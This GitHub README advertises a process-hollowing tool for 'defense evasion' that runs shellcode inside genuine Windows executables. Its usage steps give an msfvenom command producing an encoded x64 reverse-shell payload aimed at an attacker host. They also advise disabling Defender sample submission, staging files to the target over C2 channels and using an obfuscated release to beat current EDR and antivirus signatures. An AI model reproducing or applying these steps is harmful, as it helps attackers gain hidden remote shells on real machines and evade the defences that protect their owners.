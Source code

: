 # Process-Hollowing
### Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

## Kindly read [How To Use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use) !! - ***This is a Defense Evasion Technique so with time we add some suggestions for Red Team Ops to fulfill their primary objectives, so you can work Smoothly !!***

> [!WARNING]
> ## **This Binary made for Red Team Operations and user is only be responsible for the use, There's no liability of the Owner.**

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for researching about required Windows API and functionality.

2. Visual Studio Code - Linux and Windows.

3. Cross-compiler.
4. Process-Hollowing Technique working.

5. Deep-imagination .
6. Error-handling.
7. Programming Skills.
8. Time.
9. Defeating Failures.
10. Tons of Research.
11. Dedication.
12. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# ⚠️How to use

> [!NOTE]
> ## Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:


### Recommended to Turn-Off "Automatic Sample Submission" If you can or using in the testing environment.

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

### Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > -o shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly depends your work to do as per your operation's requirement and the other things? - WE'LL HANDLE!!!**
  
***3. Transfer Both Payload and Binary to Target System.***  

***4. Hollow64.exe < Path to Any application to run or show as example -notepad.exe, calc.exe > < Path to Shellcode file > .*** - You can refer to above demonstration images and binary itself to understand also .  
  
*5. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
**6. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
***7. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***

***8. As we know EDR's and AV signatures keep updating, so we created an obfuscated release to assist you and have tested on the Latest Updated Windows . !!!***

 > [!IMPORTANT]
 > ## ⚠️**Keep few things in mind when using obfuscated release -**  

  * Never Directly Download Executable via Github on the target system, I found some bytes were missing - Technical Issue  + WindowsSmartScreen even mark genuine executables malicious too while downloading .EXE from Github. ( That's why Non-Malicious like WinPEAs , which is for PrivEsc too faces some windowsSmartScreen blockings ) 

 * Best way is to Download from Github to your Kali Linux or any Attacker Machine first and then transfer it to Target System via C2 Channels or any you like. ( Invoke-WebRequest too )

 * In this case you'll not face any problems regarding missing bytes or EDR. 

 * Sometimes you have to apply many other ways to Bypass EDR and there's not always be a Signature-Patch issue. But there might be a Feature or some Technical problems like missing bytes of the binary, which restricting us.



